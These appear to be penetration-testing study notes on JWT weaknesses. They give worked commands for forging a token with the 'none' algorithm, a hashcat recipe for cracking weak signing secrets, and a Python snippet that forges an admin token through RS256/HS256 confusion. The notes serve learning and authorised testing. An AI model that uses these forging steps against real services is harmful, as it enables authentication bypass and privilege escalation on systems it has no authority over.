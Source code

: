 # JWT flaw

JWTs are self-contained tokens that can be used to securely transmit session information. It is an [open standard](https://tools.ietf.org/html/rfc7519), providing information for any developer or library creator who wants to use JWTs.&#x20;

A JWT consists of three components, each Base64Url encoded and separated by dots:

* **Header** - The header usually indicates the type of token, which is JWT, as well as the signing algorithm that is used.
* **Payload** - The payload is the body of the token, which contain the claims. A claim is a piece of information provided for a specific entity. In JWTs, there are registered claims, which are claims predefined by the JWT standard and public or private claims. The public and private claims are those which are defined by the developer. It is worth knowing the difference between public and private claims, but not for security purposes, hence this will not be our focus in this room.
* **Signature** - The signature is the part of the token that provides a method for verifying the token's authenticity. The signature is created by using the algorithm specified in the header of the JWT. Let's dive a bit into the main signing algorithms.



## Signature Validation Flaws

### Sensitive Information Disclosure

A common issue is the exposure of sensitive information within the JWT such as:

* **Credential disclosure** with the password hash, or even worse, the clear-text password being sent as a claim.
* Exposure of **internal network information** such as the private IP or hostname of the authentication server.





### None Algorithm

A data integrity failure vulnerability was present on some libraries implementing JWTs a while ago. As we have seen, JWT implements a signature to validate the integrity of the payload data. The vulnerable libraries allowed attackers to bypass the signature validation by changing the two following things in a JWT:

1. Modify the header section of the token so that the `alg` header would contain the value `none`.
2. Remove the signature part.
3. Make a new request with None Alg JWT\


Test this to all API to find a endpoint without correct authentication.

{% embed url="https://www.gavinjl.me/edit-jwt-online-alg-none/" %}



<details>

<summary>Change JWT alg in linux machine</summary>

Start with the encoded token:

{% code overflow="wrap" %}
```bash
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.SflKxwRJSMeKKF2QT4fwpMeJf36POk6yJV_adQssw5c
```
{% endcode %}

Split the encoded token into segments delimited by the "." character.

\
The first block is the header, decode that:

```bash
echo 'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9' | base64 -d
```

Here, the result is:

```
{"alg":"HS256","typ":"JWT"}
```

You can manually edit this and alter the algorithm, here we're changing it to "none". Once changed we can base64 encode it again to become useable:

```bash
echo -n '{"alg":"none","typ":"JWT"}' | base64
```

The result of that is :

```
eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0=
```

{% hint style="info" %}
IMPORTANT: Remove the trailing "=" before we use it to replace the first part of the JWT.
{% endhint %}

Follow the same process to edit the JWT payload (second encoded block).

{% code overflow="wrap" %}
```bash
echo 'eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ' | base64 -d
```
{% endcode %}

Result:

```json
{"sub":"1234567890","name":"John Doe","iat":1516239022}
```

We'll edit the name from John Doe to be Jane Doe and encode it:

```bash
echo -n '{"sub":"1234567890","name":"Jane Doe","iat":1516239022}' | base64
```

Result:

```
eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkphbmUgRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ==
```

If we're setting the algorithm to "none" then we don't want a signature. The format we'll get is:

```
{encoded header}.{encoded payload}.
```

Note the "." on the end. This would normally have the signature after it but because we're saying the algorithm is none then no signature is needed.

Our example becomes:

{% code overflow="wrap" %}
```
eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkphbmUgRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.
```
{% endcode %}

We've successfully edited a JWT and can test to see if the server accepts the edited version.

</details>



### Weak Symmetric Secrets

If a symmetric signing algorithm is used, the security of the JWT relies on the strength and entropy of the secret used. **If a weak secret is used**, it may be possible to perform offline cracking to recover the secret. Once the secret value is known, you can again alter the claims in your JWT and recalculate a valid signature using the secret.

1. Save the JWT to a text file called `jwt.txt`.
2. Download a common JWT secret list. For this room, you can use `wget https://raw.githubusercontent.com/wallarm/jwt-secrets/master/jwt.secrets.list` to download such a list.
3. Use Hashcat to crack the secret using `hashcat -m 16500 -a 0 jwt.txt jwt.secrets.list`&#x20;

Once you know what the secret is, you can forge a new admin token.



### Signature Algorithm Confusion

The last common issue with signature validation is when an algorithm confusion attack can be performed. This is similar to the `None` downgrade attack, however, it specifically happens with confusion between symmetric and asymmetric signing algorithms. If an asymmetric signing algorithm, for example, RS256 is used, it may be possible to downgrade the algorithm to HS256. In these cases, some libraries would default back to using the public key as the secret for the symmetric signing algorithm. Since the public key can be known, you can forge a valid signature by using the HS256 algorithm in combination with the public key.

{% code title="Python code to forge" %}
```python
import jwt

public_key = "ADD_KEY_HERE"

payload = {
    'username' : 'user',
    'admin' : 0 # change to elevate privileges
}

access_token = jwt.encode(payload, public_key, algorithm="HS256")
print (access_token)
```
{% endcode %}



## JWT Lifetimes

Ensure the `exp` value in JWTs allows tokens to expire appropriately, as they lack a built-in expiration feature like cookies. If early expiration is needed, maintain a blocklist of tokens. Use varying `exp` values for different applications, such as mail servers versus banking systems. Consider using refresh tokens for enhanced security. Research these aspects when testing APIs with JWTs.

An attacker could steal olden token still active.

